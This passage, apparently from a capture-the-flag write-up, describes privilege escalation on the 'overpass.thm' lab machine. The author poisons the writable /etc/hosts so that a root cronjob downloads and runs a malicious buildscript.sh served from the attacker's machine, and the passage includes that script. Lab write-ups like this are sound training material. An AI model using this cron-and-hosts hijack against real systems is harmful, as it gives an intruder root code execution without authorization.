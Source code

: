 After obtaining an interactive shell as `james` (see previous sections), I performed local enumeration to find possible paths to privilege escalation.

### Findings

- `/etc/crontab` contained a root cronjob that fetched and executed a build script from the web:

![Cron tab](./images/11-crontab.png)

This means the system (as `root`) periodically downloads and executes a shell script from `http://overpass.thm/downloads/src/buildscript.sh`.

- I discovered that `/etc/hosts` was writable by my user (using enumeration tools like `linpeas`), which allowed name resolution of `overpass.thm` to be controlled locally.

### Exploitation steps

1. **Poison hostname resolution to point `overpass.thm` at my attacker machine.**  
    On the target I edited `/etc/hosts` (since it was writable) and changed the `overpass.thm` entry to my attack machine IP (`10.10.6.4` in my test), so that any process resolving `overpass.thm` would connect to my listener.

![etc hosts](./images/12-etc-hosts.png)

    
2. **Host a malicious `buildscript.sh` on my machine.**  
    On my attacking machine I created the directory and script that the cron would fetch:

```bash
# on attacker machine
mkdir -p downloads/src
cat > downloads/src/buildscript.sh <<'EOF'
#!/bin/bash
# malicious payload executed as root by cron
cat /root/root.txt > /tmp/flag
EOF
chmod +x downloads/src/buildscript.sh
```
